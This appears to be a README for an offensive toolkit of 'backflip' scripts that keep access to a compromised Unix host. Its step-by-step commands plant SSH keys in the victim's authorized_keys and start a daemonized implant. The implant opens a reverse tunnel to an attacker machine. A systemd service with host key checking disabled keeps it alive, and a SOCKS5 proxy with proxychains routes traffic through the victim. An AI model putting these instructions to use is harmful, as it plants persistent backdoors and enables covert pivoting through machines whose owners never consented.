 # WTF

These are backflip scripts used to create ssh backflips. This allows
for a connection outbound from a unix system to an attack machine that
provides a reverse tunnel back into that machine's ssh server. It
deploys keys to make this all possible.

# Things to Take Note of
* Port numbers for both reverse port forwards and socks proxies will
  need to be managed out of band. Implement a process and use it.
* You are running an additional ssh server that your victims ssh
  to. This can be abused by somebody who has control of the victim
  machine. While shell access is disabled, and only reverse forwarding
  will work, one should be aware of this caveat.


# Moving Parts
## `implant.py`
embedded in install_implant.py that daemonizes and makes ssh
connections. Note that the current implementation uses
`subprocess.Popen` with `shell=True`, which will cause an `execve`
with `sh -c` to appear in logs.

## `install_implant.py`
runs on client that provisions the keys and runs evil.py

## `make_backflip.py`
runs on the attack machine that gives the cut-n-paste command to
run on victim

## `install_proxy.py`
installs and start a socks proxy back to victim

# How to Setup a Backflip

In our examples, our victim is 10.0.0.1 and our proxy01 external IP is
at 10.50.0.1. We our reverse port-forwards are on ports 4000 onwards
and our socks proxies are on ports 5000 onwards

1. Get a shell on victim host

1. run `make_backflip.py`

	The invocation is `make_backflip.py <user> <victim-ip> <attacker-ip> <reverse listen port>`.
	Assuming the victim username is ubuntu, attack and victim ip given
	above, and listen port 4000:

		sudo ./make_backflip.py ubuntu 10.0.0.1 10.50.0.1 4000

	This will make port 4000 on proxy01 with a remote connection to
	10.0.0.1 on 22 when the command that is outputed is run on the
	victim. This will also create a keypair on the attack machine in
	`/opt/backflip/keys` with the format `<username>-<victim>-<attack>`.
	Note that you will need to allocate a new port with each blackflip
	created.

1. run the command that `make_backflip.py` outputs on the victim

   You should see output like:

		[+] keypath: /home/ubuntu/.ssh/id_rsab
		[+] wrote private key: /home/ubuntu/.ssh/id_rsab
		[+] wrote public key: /home/ubuntu/.ssh/id_rsab.pub
		[+] wrote to ~/.ssh/authorized_keys
		[+] started daemonized tunnel
		[*] waiting one minute for tunnel to come up...
		[+] tunnel running

1. run `install_proxy.py`

	`install_proxy.py` will create a systemd service to initiate the ssh
	connection to the victim and reverse port-forward a connection to
	their ssh daemon on the attack system. Additionally, it will setup a
	SOCKS5 proxy listening on a port you specify. As above, it is
	important to note which SOCKS port you are using and each backflip
	will require a unique one.

	In this example, we setup a persistant ssh connection with reverse
	forward as well as a socks proxy on port 5000:

		sudo ./install_proxy.py 4000 5000 /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1
		contents:
		[Unit]
		Description=ssh backflip to 4000
		After=network.target auditd.service

		[Service]
		ExecStart=/usr/bin/autossh -oServerAliveInterval=30 -oServerAliveCountMax=5 -oUserKnownHostsFile=/dev/null -oStrictHostKeyChecking=no -oBatchMode=yes -n -N -D :5000 -i /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1 -p4000 ubuntu@localhost

		[Install]
		WantedBy=multi-user.target

		Created symlink /etc/systemd/system/multi-user.target.wants/backflip-4000-5000.service → /etc/systemd/system/backflip-4000-5000.service.

	You can see that the proxy and ssh backflip are up:
	
		$ sudo netstat -lntp | grep -E "4000|5000"
		tcp        0      0 0.0.0.0:4000            0.0.0.0:*               LISTEN      20612/sshd: flip
		tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      20693/ssh
		tcp6       0      0 :::4000                 :::*                    LISTEN      20612/sshd: flip
		tcp6       0      0 :::5000                 :::*                    LISTEN      20693/ssh

	Notice that ssh is listening on 0.0.0.0, meaning that these services
	are available throughout the subnet.

# How to Use a Backflip

There are two primary ways to use a backflip: shell access and proxy access.

## Get a Shell

In `/opt/backflips/keys` are the ssh keypairs necessary to ssh into
the victim machine. However, the permissions on the directory are such
that a normal user cannot use them. Each key to be used must be copied
to your home directory with permissions and ownership as SSH
expects. In our example:
```
sudo cp /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1 ~/.ssh/
sudo chown $UID:$(id -g) ~/.ssh/ubuntu-10.0.0.1-10.50.0.1
chmod 600 ~/.ssh/ubuntu-10.0.0.1-10.50.0.1
```

Note, the user will be the same user as used above
to setup the backflip.

The following will reward you with a shell on the victim:
```
ssh -i ~/.ssh/ubuntu-10.0.0.1-10.50.0.1 -p 4000 ubuntu@127.0.0.1
```

## Use a SOCKS5 Proxy

In our example above, there is a SOCKS5 proxy running on
port 5000. The most practical way to use it is with a browser plugin
such as foxyproxy or switchyomega. However, it is also available for
command line tools with the help of a proxy LD_PRELOAD library.

For example, a `proxychains.conf` in the current working directory
with contents as such:

	strict_chain
	# Quiet mode (no output from library)
	#quiet_mode
	proxy_dns 

	# Some timeouts in milliseconds
	tcp_read_time_out 15000
	tcp_connect_time_out 8000

	[ProxyList]
	socks5  127.0.0.1 5000

We can verify that our SOCKS proxy works with curl as we see our
victim IP instead of our attack IP:

```
$ proxychains curl ifconfig.me; echo
ProxyChains-3.1 (http://proxychains.sf.net)
|DNS-request| ifconfig.me 
|S-chain|-<>-127.0.0.1:5000-<><>-4.2.2.2:53-<><>-OK
|DNS-response| ifconfig.me is 216.239.32.21
|S-chain|-<>-127.0.0.1:5000-<><>-216.239.32.21:80-<><>-OK
10.0.0.1
```
